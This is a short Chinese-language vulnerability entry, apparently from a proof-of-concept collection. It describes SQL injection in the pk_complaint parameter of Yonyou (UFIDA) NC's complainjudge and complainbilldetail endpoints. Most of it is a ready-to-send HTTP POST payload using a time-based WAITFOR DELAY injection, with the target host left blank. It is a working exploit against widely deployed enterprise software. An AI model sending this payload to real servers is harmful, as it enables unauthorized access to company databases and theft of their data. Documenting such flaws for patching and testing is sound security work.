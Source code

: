 **漏洞描述：**

用友NC是由用友公司开发的一套面向大型企业和集团型企业的管理软件产品系列。 用友NC系统/ebvp/advorappcoll/complainbilldetail和complainjudge接口的pk_complaint参数存在SQL注入，攻击者能够通过该漏洞获取泄露服务器信息。

**影响版本：**

用友-UFIDA-NC

**Payload：**

```yaml
POST /ebvp/advorappcoll/complainjudge HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7)
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded

pageId=login&pk_complaint=11%27;WAITFOR%20DELAY%20%270:0:5%27--
```

---
